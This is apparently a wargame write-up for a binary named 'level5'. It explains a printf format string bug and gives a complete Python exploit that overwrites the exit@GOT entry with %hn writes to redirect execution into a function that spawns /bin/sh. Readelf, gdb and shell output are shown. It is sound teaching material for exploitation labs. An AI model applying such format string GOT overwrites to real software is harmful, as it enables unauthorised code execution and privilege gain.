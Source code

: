 <h1 align="center"> LEVEL 5 </h1>

## 🔍 Analysis of Decompiled [level5](./source.c)
```
void o(void)
{
  system("/bin/sh");
                    // WARNING: Subroutine does not return
  _exit(1);
}

void n(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
                    // WARNING: Subroutine does not return
  exit(1);
}

void main(void)
{
  n();
  return;
}

```
## What happens?

- The program reads input via fgets() into a large buffer (local_20c).
- Then it calls printf(local_20c); — format string vulnerability!
- Finally, it calls exit(1);

## 💥 Exploit 
Use the format string vulnerability in printf(local_20c) to overwrite a GOT entry so when exit(1) is called, it actually calls o() instead of the normal exit().
### Step 1: Identify the GOT entry for exit
```
$ readelf -r ./level5 | grep exit
08049828  00000207 R_386_JUMP_SLOT   00000000   _exit
08049838  00000607 R_386_JUMP_SLOT   00000000   exit

```
So, exit@GOT is at `0x08049838` 
### Step 2: Find the address of o()
```
$ gdb ./level5
(gdb) info fucntions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

```
so the address of o is `0x080484a4`

### Step 3: Exploit with format string

Use the format string vulnerability to write the address of o() into exit@GOT.</br>
When n() calls exit(1), the program actually jumps to o(), spawning a shell.

How to write the address?
- Split o() address into two halves (low 2 bytes and high 2 bytes).
- Write these halves to exit@GOT and exit@GOT + 2 using %hn.
- Use format string to print enough characters for padding.

exploit script using python:
```py
import struct

ret_addr = 0x08049838
win_addr = 0x080484a4

low = win_addr & 0xffff       # 0x84a4
high = (win_addr >> 16)       # 0x0804

addr1 = struct.pack("<I", ret_addr)
addr2 = struct.pack("<I", ret_addr + 2)
print(addr1, addr2)
offset = 4
written = len(addr1) + len(addr2)  # 2 addresses = 8 bytes

pad1 = low - written
pad2 = high - low
if pad1 < 0:
    pad1 += 0x10000
if pad2 < 0:
    pad2 += 0x10000


fmt = "%%%dx%%%d$hn%%%dx%%%d$hn" % (pad1, offset, pad2, offset + 1)

payload = addr1 + addr2 + fmt.encode()

with open("payload.txt", "wb") as f:
    f.write(payload)
print("Payload written with offset %d" % offset)
```
```
(cat payload.txt; cat) | ./level5
whoami
level6
```
